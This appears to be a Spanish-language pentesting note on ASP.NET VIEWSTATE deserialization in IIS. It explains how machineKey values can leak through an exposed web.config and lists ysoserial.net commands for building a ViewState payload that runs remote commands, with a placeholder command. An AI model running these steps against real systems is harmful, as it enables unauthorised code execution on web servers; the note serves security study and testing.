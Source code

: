 -----
# VIEWSTATE in IIS

Podemos obtener la explotación en la de deserialización en aplicaciones **ASP.NET** a través del campo **VIEWSTATE**, campo oculto utilizado por ASP.NET para mantener el estado de la página entre solicitudes puede ser firmado y/o encriptado para evitar manipulación, pero en poseción de las claves o con una mala configuración podría ser explotado.

###### web.config
En algunos casos, los archivos de configuración (como `web.config`) pueden estar expuestos y accesibles, ya sea por malas configuraciones u otras vulnerabilidades como [[LFI - (Local File Inclusion)]]. Estos archivos pueden encontrarse en la raíz del sistema por defecto, pero también podrían tener una localización diferente, por lo que probar distintas rutas conocidas será necesario.

Este archivo alojará las claves de validación y cifrado utilizadas por la aplicación ASP.NET. Estas claves son esenciales si el campo **VIEWSTATE** está configurado para ser firmado o encriptado. 

Ejemplo de archivo *web.config*:

```xml
<configuration>
	<system.web>
		......
		......
		<machineKey decryption="AES"
decryptionKey="74477CEBDD09D66AD4A8C8B5002A4CF....."
validation="SHA1"
validationKey="56200D3D029F914F4CDF25869D24EC2DA51174....." />
	</system.web>
		<system.webServer>
			.......
			.......
		</system.webServer>
</configuration>
```

###### ysoserial.net
Como sabemos, [ysoserial.net](https://github.com/pwntester/ysoserial.net) es una herramienta para generar payloads y explotar vulnerabilidades en aplicaciones .NET (Object deserialization). Una vez con el contenido del archivo *web.config* o con la información necesaria del mismo (Claves y Validactiones) y descargado el repositorio de ysoserial con una terminal abierta en el mismo, podríamos proseguir con la creación del payload.

- Validar los plugins posibles a utilizar:
```bash
ysoserial.exe -p --help
```

- Listar ejemplos para el uso del plugin *ViewState*:
```bash
ysoserial.exe -p ViewState --examples
```

- Crear payload para acontecer [[RCE - (Remote Command Execution)]] basado en la información del archivo *web.config*: 
```bash
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "{Command 2 execute}" --path="/path/where/is/the/petition/with/viewstate" --apppath="/path/to/the/asp/app" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66AD4A8C8B5002A4CF....." --validationalg="SHA1" --validationkey="56200D3D029F914F4CDF25869D24EC2DA51174...."
```
